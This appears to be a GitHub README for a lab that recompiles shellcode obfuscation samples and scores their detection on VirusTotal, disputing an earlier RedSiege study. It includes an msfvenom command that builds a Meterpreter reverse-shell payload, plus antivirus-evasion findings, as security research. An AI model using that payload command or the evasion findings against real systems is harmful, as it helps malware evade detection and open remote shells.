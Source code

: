 # SOL ShellcodeObfuscationLab

Shellcode obfuscations laboratory based on RedSiege [Chromatophore](https://github.com/RedSiege/Chromatophore/). 


## Background

I see RedTeam research like [Adventures in Shellcode Obfuscation!](https://redsiege.com/blog/2024/09/adventures-in-shellcode-obfuscation-part-14-further-research/), a 
[14 part series](https://redsiege.com/adventures-in-shellcode-obfuscation/)
of hiding shellcode using various different encryption- or encoding ciphers. 

In the security scene, the myth perpetuates: How you encode a shellcode has an
influence on the detection rate. The assumption is, that somehow an AV or security software
has a unique ability to automagically reverse engineer encryption ciphers, and also
have a quantum computer integrated to crack the key. 

The truth is: AV doesnt know shit. 

RedSiege came to the following wrong result:

| Technique          | VT Score |
| ------------------ | -------- |
| XOR Multibyte Key  | 2        |
| Offsets            | 2        |
| Jargon             | 3        |
| Reverse Byte Order | 4        |
| Jigsaw             | 4        |
| Reversed Byte XOR  | 5        |
| IPv4               | 6        |
| MAC Address        | 6        |
| Caesar             | 7        |
| RC4                | 7        |
| XOR                | 8        |
| AES                | 8        |
| Two Array          | 8        |
| Reverse String     | 13       |
| UUID               | 13       |
| Base64             | 18       |
| No Obfuscation     | 27       |


But didnt bother to question the data. There are many issues with it: 

* Why are the top three Base64, UUID, and reverse hex string? Especially the later is very obscure
* No negative test (without malicious shellcode)
* Some programs are written in C, some in C#
* Some use WinAPI (AES, RC4, UUID) which are either an IOC, or may block AV emulator
* ReverseXor brute forces the key
* In jargon.c they mention that Defender detects the decryption routine itself. Same in xor_multibyte
* As they store the shellcode in a variable, static analysis tools can try out their deobfuscation on all the variables (explains high detection of ReverseString and Base64)
* Scans performed with large intervals between them (weeks?)

Which means that the test has been performed wrong, and the results are invalid. 
Any conclusion based on the data is also invalid - and building [trainings](https://redsiege.com/training-av-edr-evasion/) on it distributes the misinformation. 

Luckily RedSiege published the [shellcode encoder sources](https://github.com/RedSiege/Chromatophore).
I made this framework based on it to test it for myself. 


## Predictions

* Which encryption you use doesnt matter - they all equally resistant to analysis
* Using windows API's will increase detection rate


## Results

Tests have been performed with einer "random" - a alphanumeric 20 byte string as "shellcode". And "metasploit" 
with output of `msfvenom -p windows/x64/meterpreter/reverse_http LHOST=192.168.190.134 LPORT=80 -f raw -o beacon.bin`. 
The "metasploit" does not execute the shellcode, only decodes and prints it. 

Conclusion: 
* The type of encoding/encryption doesnt matter
* More important is if a windows API is being used/imported (static analysis, e.g. IAT in PE)
* Note that NO obfuscation metasploit outperforms AES encryption, base64 windows api, ip-, mac- and uuid-encoding
* VirusTotal has maybe one memory scanner. The rest seem to be static analysis. 

| **What**           | **Library**           | **Includes**              | **Function / IAT**                 | **Random** | **Metasploit** |
| ------------------ | --------------------- | ------------------------- | ---------------------------------- | ---------- | -------------- |
| aes                | crypt32.lib, advapi32 | wincrypt.h                | Crypt\*                            | **5**          | **6**              |
| base64             | \-                    | \-                        | \-                                 | 3          | 3              |
| base64api          | crypt32.lib           | wincrypt.h                | CryptStringToBinaryA               | **5**          | **6**              |
| bin2ip             | Ntdll.lib             | ntstatus.h<br>Ip2string.h | RtlIpv4StringToAddressA            | **8**          | **10**             |
| bin2mac            | Ntdll.lib             | ntstatus.h<br>Ip2string.h | RtlEthernetStringToAddressA        | **8**          | **18**             |
| cesar              | \-                    | \-                        | \-                                 | 2          | 2              |
| jargon             | \-                    | \-                        | \-                                 | 3          | 2              |
| jigsaw             | \-                    | \-                        | \-                                 | 2          | 3              |
| offset             | \-                    | \-                        | \-                                 | 2          | 3              |
| rc4api             | \-                    | \-                        | GetProcAddress (SystemFunction033) | 2          | 2              |
| reverse_byte_order | \-                    | \-                        | \-                                 | 2          | 2              |
| reverse_hex_string | \-                    | \-                        | \-                                 | 2          | 2              |
| twoarray           | \-                    | \-                        | \-                                 | 2          | 3              |
| uuidapi            | rpcrt4.lib            | rpc.h                     | UuidFromStringA                    | **8**          | **11**             |
| xor_multibyte      | \-                    | \-                        | \-                                 | 1          | 2              |
| xor_reverse        | \-                    | \-                        | \-                                 | 2          | 3              |
| xor_single         | \-                    | \-                        | \-                                 | 1          | 3              |
| **NO OBFUSCATION**     | \-                    | \-                        | \-                                 | 2          | 3              |


The results of the test are at [lab_results/](https://github.com/dobin/ShellcodeObfuscationLab/tree/main/lab_results). 
For example the generated [aes.c source code](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/aes_work.c),
and [VirusTotal result](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/aes.exe.json).


## SOL Usage

Use the `x64 native tools command prompt` from Visual Studio so you have access to `ml.exe` and `Windows.h`. 

To compile all the source from `chromatophore/` into `output/*.exe`:
```
> python.exe sol.py compile
```

To send all the exes to VirusTotal:

```
> set VT_API_KEY=123...
> python.exe sol.py 
```

Output is in `output/*.exe.json` and `output/scan_results.txt`. 

